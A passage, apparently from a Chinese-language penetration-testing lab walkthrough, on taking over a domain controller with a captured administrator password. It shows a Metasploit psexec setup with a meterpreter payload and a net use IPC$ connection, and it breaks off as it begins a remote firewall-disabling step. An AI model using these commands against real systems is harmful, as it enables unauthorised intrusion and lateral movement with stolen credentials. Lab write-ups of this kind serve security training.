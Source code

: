 # 进攻域控

现在就剩下域控制器DC了。既然都抓取到域管理员的密码了，那我们直接psexec登陆就得了：

```
use exploit/windows/smb/psexec
set rhosts 192.168.93.30
set SMBUser administrator
set SMBPass Whoami2021
set payload windows/meterpreter/bind_tcp
set rhost 192.168.93.30
run
```

![截图](d7d1607ec00f03e57ad3ac09a3662329.png)

失败了，应该是开了防火墙的原因。

没关系，我们已经有了域控的密码了，就可以控制第二层网络的Windows 7远程关闭域控的防火墙了。首先控制第二层网络的Windows 7与域控建立ipc连接：

```
net use \\192.168.93.30\ipc$ "Whoami2021" /user:"Administrator"
```

![截图](9a3ec24f45aa661b5fdfa2a2bbac26ca.png)

然后执行如下命令，使用sc远程在域制器（192.168.93.30）上创建服务关闭防火墙：
